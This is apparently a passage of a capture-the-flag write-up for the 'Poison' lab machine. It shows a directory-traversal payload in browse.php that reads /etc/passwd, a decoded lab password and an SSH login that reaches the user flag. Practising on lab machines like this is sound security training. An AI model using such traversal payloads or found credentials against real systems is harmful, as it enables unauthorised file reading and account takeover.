 ```
```

browse.php seems to be vulnerable for directory traversal, as this parameter for it provides a valid response

```
http://10.129.177.174/browse.php?file=../../../../../usr/local/www/apache24/data/listfiles.php
```

This can be further verified by being able to fetch the /etc/passwd

```
http://10.129.177.174/browse.php?file=../../../../../etc/passwd

# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $ # root:*:0:0:Charlie &:/root:/bin/csh toor:*:0:0:Bourne-again Superuser:/root: daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin operator:*:2:5:System &:/:/usr/sbin/nologin bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin news:*:8:8:News Subsystem:/:/usr/sbin/nologin man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin _pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin _dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin _ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin _tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin charix:*:1001:1001:charix:/home/charix:/bin/csh 
```

## Initial Access

The 'secure password' is just a base64 encoded many times, and running it through and decoder sufficienly many times reveals the passord

```
Charix!2#4%6&8(0
```

From the /etc/passwd file a probable user 'charix' can be found, and indeed with the password it is possible to ssh in to the host.

```
$ ssh charix@10.129.177.174                                                                                                          130 ⨯
Password for charix@Poison:
Last login: Mon Mar 19 16:38:00 2018 from 10.10.14.4
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

...

charix@Poison:~ % ls -al /home/charix/user.txt 
-rw-r-----  1 root  charix  33 Mar 19  2018 /home/charix/user.txt
charix@Poison:~ %
```
